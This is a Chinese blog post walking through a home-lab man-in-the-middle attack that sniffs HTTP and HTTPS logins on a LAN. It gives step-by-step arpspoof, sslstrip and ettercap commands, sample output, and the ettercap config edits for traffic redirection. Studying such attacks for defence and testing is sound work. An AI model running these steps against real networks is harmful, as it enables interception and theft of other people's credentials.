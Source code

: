 ```yaml
---
layout: post
title:  "网络安全-局域网https嗅探"
categories: 网络安全
tags: 网络安全 https嗅探
author: xueyp
description: 局域网https嗅探,arpspoof,sslstrip,ettercap
---
```


局域网http嗅探是一种典型的中间人攻击（man-in-the-middle)，攻击者扮演中间人进行攻击，可以劫持一段http/https会话，窃取凭证和其他机密信息。

# 搭建环境 

## 环境
- 主机1: 172.16.1.253 manjaro系统

需安装arpspoof,sslstrip,ettercap,其中arpspoof在dsniff包中。kali自带所有工具。

开启ip转发：

```
echo 1 >/proc/sys/net/ipv4/ip_forward
cat /proc/sys/net/ipv4/ip_forward #若结果为1说明开启成功。
```

以上为临时开启，若想重启后还生效，需要配置：

```
/etc/sysctl.d/30-ipforward.conf

net.ipv4.ip_forward=1
```

- 主机2: 172.16.1.252 windows系统

## 所用软件

- arpspoof

arpspoof是一种用作ARP欺骗的一种中间人攻击工具，通过毒化受害者的ARP缓存，将网关的MAC替换成攻击者的MAC，于是攻击者的主机实际上就充当了受害主机的网关，之后攻击者就可以截获受害者发出和接到的数据包，从中获取账号密码、银行卡信息等。

- sslstrip

在日常上网过程中，用户只是在地址栏中输入网站域名，而不添加协议类型，如HTTP和HTTPS。这时，浏览器会默认在域名之前添加http://，然后请求网站。如果网站采用HTTPS协议，就会发送一个302重定向状态码和一个HTTPS的跳转网址，让浏览器重新请求。浏览器收到后，会按照新的网址，进行访问，从而实现数据安全加密。由于存在一次不安全的HTTP的请求，所以整个过程存在安全漏洞。

sslstrip工具就是利用这个漏洞，实施攻击。渗透测试人员通过中间人攻击方式，将目标的数据转发到攻击机。sslstrip将跳转网址的HTTPS替换为HTTP，发给目标。目标以HTTP方式重新请求，而sslstrip将HTTP替换为HTTPS，请求对应的网站。这样就形成了，目标和ssltrip之间以HTTP明文方式传输，而sslstrip和服务器以HTTPS加密方式传输。这样，渗透人员就可以轻松获取明文数据了。

- ettercap

ettercap是一款现有流行的网络抓包软件，他利用计算机在局域网内进行通信的ARP协议的缺陷进行攻击，在目标与服务器之间充当中间人，嗅探两者之间的数据流量，从中窃取用户的数据资料。

ettercap有两种运行方式，UNIFIED和BRIDGED。UNIFIED的方式是以中间人方式嗅探，基本原理是同时欺骗主机A和B，将自己充当一个中间人的角色，数据在A和B之间传输时会通过C，C就可以对数据进行分析，从而完成嗅探。BRIDGED方式是在双网卡情况下，嗅探两块网卡之间的数据包。

ettercap的sniffing工作方式划分为五种：

1. IPBASED：在基于IP地址的sniffing方式下，ettercap将根据源IP-PORT和目的IP-PORT来捕获数据包；

2. MACBASED：在基于MAC地址的方式下，ettercap将根据源MAC和目的MAC来捕获数据包（在捕获通过网关的数据包时，该方式很有用）；

3. ARPBASED：在基于Arp欺骗的方式下，ettercap利用Arp欺骗在交换局域网内监听两个主机之间的通信（全双工）；

4. SMARTARP：在SMARTARP方式下，ettercap利用Arp欺骗，监听交换网上某台主机与所有已知的其他主机（存在于主机表中的主机）之间的通信（全双工）；

5. PUBLICARP：在PUBLICARP 方式下，ettercap利用Arp欺骗，监听交换网上某台主机与所有其它主机之间的通信（半双工）。此方式以广播方式发送Arp响应，但是如果 ettercap已经拥有了完整的主机地址表（或在ettercap启动时已经对LAN上的主机进行了扫描），ettercap会自动选取 SMARTARP方式，而且Arp响应会发送给被监听主机之外的所有主机，以避免在Windows主机上出现IP地址冲突的消息。

# 实施嗅探

- 在主机1开启欺骗

```
sudo arpspoof -i enp2s0 -t 172.16.1.252 172.16.1.254 #（-i：后面跟攻击机网卡   -t：后面跟受害机的ip和网关）
1c:6f:65:de:d4:80 20:47:47:3f:7b:8a 0806 42: arp reply 172.16.1.254 is-at 1c:6f:65:de:d4:80
1c:6f:65:de:d4:80 20:47:47:3f:7b:8a 0806 42: arp reply 172.16.1.254 is-at 1c:6f:65:de:d4:80
1c:6f:65:de:d4:80 20:47:47:3f:7b:8a 0806 42: arp reply 172.16.1.254 is-at 1c:6f:65:de:d4:80
1c:6f:65:de:d4:80 20:47:47:3f:7b:8a 0806 42: arp reply 172.16.1.254 is-at 1c:6f:65:de:d4:80
1c:6f:65:de:d4:80 20:47:47:3f:7b:8a 0806 42: arp reply 172.16.1.254 is-at 1c:6f:65:de:d4:80

```

- 在主机1开启密码嗅探

新建一个终端，用ettercap命令截取对方输入的账号密码

```
sudo ettercap  -Tq  -i enp2s0 #（-T：启动文本模式  q：安静模式     -i：攻击机网卡）

ettercap 0.8.2 copyright 2001-2015 Ettercap Development Team

Listening on:
enp2s0 -> 1C:6F:65:DE:D4:80
      172.16.1.253/255.255.255.0
      fe80::1e6f:65ff:fede:d480/64
      fda8:5929:4981:0:1e6f:65ff:fede:d480/64
      fda8:5929:4981::823/128

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  33 plugins
  42 protocol dissectors
  57 ports monitored
20388 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
* |==================================================>| 100.00 %

57 hosts added to the hosts list...
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

DHCP: [00:22:AA:E7:BC:C0] DISCOVER 

```

- 在主机2用http协议访问网站并输入账号密码，就能截取到账号密码等一系列信息，需要注意的是，若用户名是中文汉字，截取下来的user类似于%E8%E6%86  这样的，需要手动URL解码。

# https嗅探 

https协议网站的账号密码获取方式与其相似，只不过中间加了一个步骤。

- 在主机1开启欺骗

```
sudo arpspoof -i enp2s0 -t 172.16.1.252 172.16.1.254
```

- 开启

vim  /etc/ettercap/etter.conf    去掉linux下的俩个注释,此处要注意的是，如果用的是ipchains，则去掉如下注释。

```
#---------------
#     Linux 
#---------------

# if you use ipchains:
   redir_command_on = "ipchains -A input -i %iface -p tcp -s 0/0 -d 0/0 %port -j REDIRECT %rport"
   redir_command_off = "ipchains -D input -i %iface -p tcp -s 0/0 -d 0/0 %port -j REDIRECT %rport"
```

若用的是iptables,刚去掉# if you use iptables:下两行的注释。

然后，运行sslstrip

```
sudo sslstrip   -a  -f  -k  
sslstrip 0.9 by Moxie Marlinspike running...
```
--------------------- 

- 在主机1开启密码嗅探

新建一个终端，用ettercap命令截取对方输入的账号密码

```
sudo ettercap  -Tq  -i enp2s0
```

然后在主机2访问https网站，即可截获密码。

参考
============

[Arpspoof工具](https://wizardforcel.gitbooks.io/daxueba-kali-linux-tutorial/content/58.html)

[SSLSTRIP in a Man in the Middle Attack](https://www.cybrary.it/0p3n/sslstrip-in-man-in-the-middle-attack/)

[Man In the Middle attacks with sslstrip and arpspoof](https://wmsmartt.wordpress.com/2011/08/30/man-in-the-middle-attacks-with-sslstrip-and-arpspoof/)

版权声明：本文为博主原创文章，转载请注明出处。 [旭日酒馆](https://xueyp.github.io/)
